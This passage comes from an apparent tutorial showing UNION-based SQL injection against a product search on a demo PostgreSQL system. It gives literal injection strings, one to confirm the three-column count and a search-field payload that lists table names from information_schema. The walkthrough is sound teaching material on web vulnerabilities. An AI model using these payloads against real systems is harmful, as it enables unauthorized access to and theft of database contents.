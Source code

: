 Ok, ok. It may not be exactly three columns, but let's try with 3 for now (remember I designed the system).

Now let's use the `UNION` command from `SQL`. This allows us to merge two results into a single result or `Dataset`.

![union-sql-1](https://res-3.cloudinary.com/ht54oxr6q/image/upload/q_auto/v1/ghost-blog-images/union-sql-1.png)

Let's use this to return product data **and** something that interests us.

```sql
SELECT ?, ?, ? FROM ? WHERE ? LIKE '%mmer%'
```

Let's modify our *query* to use `UNION` statment and bring the values **1, 2, 3**.

```sql
SELECT ?, ?, ? FROM ? WHERE ? LIKE '%mmer%' UNION SELECT '1', '2', '3';--
```

![7](https://res-2.cloudinary.com/ht54oxr6q/image/upload/q_auto/v1/ghost-blog-images/7.png)

This yielded the feedback we already know plus a row containing the values "1", "2" and "3", also validating our three column hypothesis.

Let's move on to the ** tables ** now.

```sql
SELECT ?, ?, ? FROM ? WHERE ? LIKE '%mmer%' UNION SELECT '1', '2', '3';--
```
*Our current command.*

The command below is able to return the `Schema` tables from the *PostgreSql* database.

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='public'
```

![sql-schema](https://res-3.cloudinary.com/ht54oxr6q/image/upload/q_auto/v1/ghost-blog-images/sql-schema.png)

*Expected outcome. System Tables *

Let's introduce our `Query`.

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='public'
```

Put in the search field `mmer%'UNION  SELECT "table_name", "table_schema", "table_catalog" FROM information_schema.tables WHERE table_schema='public'--`

Creating the `QUERY`:

```sql
select ?, ?, ? from ?
UNION 
SELECT "table_name", "table_catalog", "table_schema" FROM information_schema.tables WHERE table_schema='public'
```

![result-tables](https://res-2.cloudinary.com/ht54oxr6q/image/upload/q_auto/v1/ghost-blog-images/result-tables.png)
